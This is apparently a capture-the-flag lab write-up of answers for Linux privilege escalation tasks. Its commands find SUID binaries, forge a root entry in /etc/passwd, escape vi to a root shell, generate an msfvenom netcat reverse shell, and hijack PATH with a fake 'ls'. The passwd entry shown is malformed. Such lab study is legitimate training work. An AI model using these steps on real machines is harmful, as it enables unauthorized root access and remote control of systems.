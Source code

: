 
## Task - 5: Abusing SUID/GUID Files

**Q: What is the path of the file in user3's directory that stands out to you?**

Answer: /home/user3/shell

Hint: find / -perm -u=s -type f 2>/dev/null (this will find all the files with SUID bit set)

**Also need to run this script ./shell  and it will give you root access**

## Task -6: Exploiting Writeable /etc/passwd

**Q: Having read the information above, what direction privilege escalation is this attack?**

Answer: vertical 

**Note: Exit from root user and enter as user7**

**Q: Before we add our new user, we first need to create a compliant password hash to add! We do this by using the command: "openssl passwd -1 -salt [salt] [password]"**

**What is the hash created by using this command with the salt, "new" and the password "123"?**

Answer: $1$new$p7ptkEKU1HnaHpRtzNizS1

Solution: user7@polobox:/home/user3$ openssl passwd -1 -salt new 123
$1$new$p7ptkEKU1HnaHpRtzNizS1

**Q: Great! Now we need to take this value, and create a new root user account. What would the /etc/passwd entry look like for**
**a root user with the username "new" and the password hash we created before?**

Answer: new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root/bin/bash

(add this new user at very last of /etc/passwd with nano or vim editor. Exit and try to login with new user)

## Task - 7: Escaping Vi Editor

**Q: Let's use the "sudo -l" command, what does this user require (or not require) to run vi as root?**

Answer: nopasswd

**Note:** There is not much task but important logic to escape privileges by opening vi with sudo and typing :!sh, it will give you root access

## Task -8: Exploiting Crontab

**Q: What is the flag to specify a payload in msfvenom?**

Answer: -p 

**msfvenom -p cmd/unix/reverse_netcat lhost=$LOCALIP lport=8888 R**
**This script will generate reverse shell , use your IP. This payload will create a reverse shell connection to the IP address $YOUR_IP on port 8888** 

## Task - 9: 

## task -9 : Exploiting Path

**Q: Let's go to user5's home directory, and run the file "script". What command do we think that it's executing?**

Answer: ls

Hint: ./script

**Q: What would the command look like to open a bash shell, writing to a file with the name of the executable we're imitating**

Answer: echo "/bin/bash" > ls

**Q: Great! Now we've made our imitation, we need to make it an executable. What command do we execute to do this?**

Answer: chmod +x ls


**Q: What directory is the "autoscript.sh" under?**

Answer: /home/user4/Desktop


